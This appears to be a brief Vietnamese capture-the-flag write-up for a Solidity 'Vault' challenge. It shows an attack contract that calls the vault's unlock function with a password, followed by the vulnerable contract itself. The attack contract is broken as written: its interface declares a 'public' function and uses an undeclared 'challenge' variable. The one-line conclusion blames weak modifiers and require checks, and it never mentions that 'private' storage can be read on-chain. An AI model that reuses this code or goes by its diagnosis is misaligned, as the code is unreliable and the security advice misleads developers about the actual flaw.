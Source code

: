 ### Kết luận
- Lỗ hổng: Cơ chế mở khóa quá dễ dàng bị phá, cần thêm một số `modifiers`, `require` chặt hơn.
### Contract tấn công
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
interface IVault{
    function unlock(bytes32 _password) public;
}
contract VaultAttack{
    constructor (address _victim){
        challenge = IVault(_victim);
    }
    function attack(bytes32 _password) external {
        challenge.unlock(_password);
    }
}
```
### Contract
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
    bool public locked;
    bytes32 private password;

    constructor(bytes32 _password) {
        locked = true;
        password = _password;
    }

    function unlock(bytes32 _password) public {
        if (password == _password) {
            locked = false;
        }
    }
}
```
